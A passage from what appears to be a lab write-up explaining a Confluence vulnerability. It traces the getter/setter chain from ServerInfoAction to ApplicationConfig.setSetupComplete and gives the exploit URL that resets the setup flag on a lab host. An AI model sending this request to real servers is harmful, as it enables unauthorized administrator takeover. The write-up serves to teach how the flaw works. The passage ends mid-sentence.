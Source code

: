 <p>This would execute setId('123') as defined in the corresponding Action class.</p>

<h3>Chaining Getters/Setters to Reenable the Initial Setup</h3>
<p>The reported exploit takes advantage of the ServerInfoAction Action. The reason for picking this specific Action is that we can build a chain of getters/setters from it to set the configuration parameter that turns the initial setup on or off.<br>

If you analyse the code of the ServerInfoAction class, you'll see it extends the ConfluenceActionSupport class. By doing so, it will inherit all of its methods as well. One such method is a getter that returns a BootstrapStatusProvider object:</p>

<pre><code>$
public class ConfluenceActionSupport extends ActionSupport implements LocaleProvider, WebInterface, MessageHolderAware {
  public BootstrapStatusProvider getBootstrapStatusProvider() {
    if (this.bootstrapStatusProvider == null)
      this.bootstrapStatusProvider = BootstrapStatusProviderImpl.getInstance(); 
    return this.bootstrapStatusProvider;
  }
}
</code></pre>

<p>We care about the BootstrapStatusProvider class because it has another getter method we can use to retrieve an ApplicationConfiguration object:</p>

<pre><code>$
public class BootstrapStatusProviderImpl implements BootstrapStatusProvider, BootstrapManagerInternal {
  public ApplicationConfiguration getApplicationConfig() {
    return this.delegate.getApplicationConfig();
  }
}
</code></pre>

<p>As you have probably guessed by now, this object contains the application's configuration, including an attribute that tells Confluence if the initial setup has been finished. Such attribute can be modified by using a setter in the ApplicationConfig class:</p>

<pre><code>$
public class ApplicationConfig implements ApplicationConfiguration {
  public synchronized void setSetupComplete(boolean setupComplete) {
    this.setupComplete = setupComplete;
  }  
}
</code></pre>

<p>If we call setSetupComplete(false), we will effectively reenable the initial setup. Putting it all together, we can call that chain of getters/setters by accessing the following URL:</p>

<pre><code>$
http://10.10.245.48:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
</code></pre>

<p>This will be effectively translated by XWork into a call to:</p>
